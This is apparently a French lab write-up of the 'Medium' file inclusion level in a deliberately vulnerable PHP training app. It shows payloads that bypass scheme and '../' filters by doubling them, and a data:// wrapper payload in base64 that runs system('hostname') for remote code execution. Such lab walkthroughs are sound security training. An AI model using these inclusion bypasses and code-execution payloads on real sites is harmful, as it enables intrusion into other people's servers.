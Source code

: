 # Niveau "Medium"

Sur ce niveau, il ne semble plus possible d'effectuer une RFI ainsi que d'utiliser la technique du path traversal (mais la LFI reste toujours possible) :

![](../../../../.gitbook/assets/12000a3502b9dc31280d18f793f10c96.png)

Après quelques essais j'identifie l'utilisation d'un filtrage des patterns `http://` et `https://`. Ce genre de filtrage est très souvent contournable car il est facile pour le développeur d'oublier un scénario. Il suffit par exemple ici de doubler le schéma désiré :

```http
?page=hthttp://tp://www.google.fr
```

![](../../../../.gitbook/assets/6db04f47f06efb8c2bef57d432450d27.png)

{% hint style="info" %}
Etant donné que seule les protocoles `http://` ou `https://` sont filtrés, il est également possible de passer par un autre protocole (comme `ftp://`) afin de réaliser l'attaque
{% endhint %}

Le path traversal semble maintenant impossible à ce niveau :

![](../../../../.gitbook/assets/a4d91e7de5a626a79d995d911f979bfc.png)

Mais contournable avec la même technique de contournement de doublement (car le filtrage est sans doute effectué sur les occurrences `../` ) :

![](../../../../.gitbook/assets/ec7901f0677409430af1d90c1070d2fc.png)

L'utilisation de wrappers PHP reste tout de même possible :

![](../../../../.gitbook/assets/2057362e5ab96e727601f3daa14c87f9.png)

Mais plus intéressant, l'exécution de code grâce au wrapper `data://` fonctionne également (un autre wrapper bien dangereux comme il faut :yum:) :

```http
?page=data://text/plain;base64.PD9waHAgc3lzdGVtKCdob3N0bmFtZScpOyA/Pg==
```

![](../../../../.gitbook/assets/30c63e8cd4a4620e2ca9674088884cb4.png)

La payload encodée en base64 étant la suivante :

```php
<?php 
  system('hostname');
?>
```
